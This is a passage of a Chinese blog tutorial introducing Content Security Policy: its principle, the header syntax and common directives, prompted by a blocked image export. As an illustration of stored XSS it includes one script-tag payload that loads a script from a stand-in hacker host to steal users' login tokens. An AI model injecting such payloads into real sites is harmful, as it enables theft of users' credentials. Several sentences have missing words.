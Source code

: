 
--- 
title:  CSP 内容安全策略入门 
tags: []
categories: [] 

---
### 1. 前言

最近在修复公司系统一个图片导出的功能，无法导出图片

<img src="https://img-blog.csdnimg.cn/img_convert/6cd9ec970e762d1493b6c518fa163dbb.png" alt="">，拒绝加载图片`blob:http://xxxx`，违反`Content Security Policy`， 于是就 google 一把，这个是什么玩意？

### 2. Content Security Policy

这是网站安全方面的内容了，对于网站跨域的问题错误不少见，跨域是由于导致的，只允许加载来自自身的origin 域的数据，即  是不能加载来自  的数据的，这样就解决大部分的安全问题，恶意代码就无法在浏览器端执行获取用户的安全隐私。毕竟，“道高一丈，魔高一尺”，恶意方总有方法绕过同源策略的限制，如跨站脚本攻击，比如网站有个留言板功能，但后台未对用户输入进行过滤，攻击者可以在留言编辑框中输入

```
&lt;script src="http://www.hacker.org/xss.payload.js"&gt;&lt;/script&gt; 

```

，xss.payload.js可以获取老浏览用户的信息，如的登录token、用户的个人资料等。以前的防御手段主要是对用户输入进行过滤如：去除html标签，实体化，关键字过滤等等，这样一来，最终的结果就是后台的大多数代码都是在做字符串验证，非常的让人不舒服。所以W3 org引入了CSP，它从另外一层面给浏览器提供了保护。

看看 MDN 的解释：

>  
 内容安全策略 (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等。无论是数据盗取、网站内容污染还是散发恶意软件，这些攻击都是主要的手段。 


本文主要讲述以下几点内容：
- CSP 原理- CSP 使用规则- CSP 的应用：解决图片导出的问题
#### 2.1 原理

CSP 通过告诉浏览器一系列的规则，严格规定页面中哪些资源允许有哪些资源，不在指定范围内的统统拒绝，这样一来，从源头上杜绝了不可信的xss payload。

#### 2.2 规则

无论是在 `&lt;meta&gt;` 标签还是在 header 中指定，其值的格式是统一的，都由一系列的指令组成的。

```
Content-Security-Policy: &lt;policy-directive&gt;; &lt;policy-directive&gt; 

```

这里的指令是CSP 规定中用以详细描述某种资源的判断，比如前面的错误图片中，`img-src` 指定图片，下面列出一些常用的指令
- child-src：为web workers和其他内嵌浏览器内容（例如用和加载到页面的内容）定义合法的源地址。- connect-src：限制能通过脚本接口加载的UR- default-src：为其他取指令提供备用服务fetch directives。- font-src：设置允许通过@font-face加载的字体源地址。- img-src: 限制图片和图标的源地址- frame-src： 设置允许通过类似和标签加载的内嵌内容的源地址- 限制application manifest文件的源地址。- object-src：限制、、标签的源地址。- media-src：限制通过、或标签加载的媒体文件的源地址。- prefetch-src ：指定预加载或预渲染的允许源地址。- script-src：限制JavaScript的源地址。- style-src：限制层叠样式表文件源。- worker-src：限制Worker、SharedWorker或者ServiceWorker脚本源。
更多指令，见 

#### 指令可接受的值
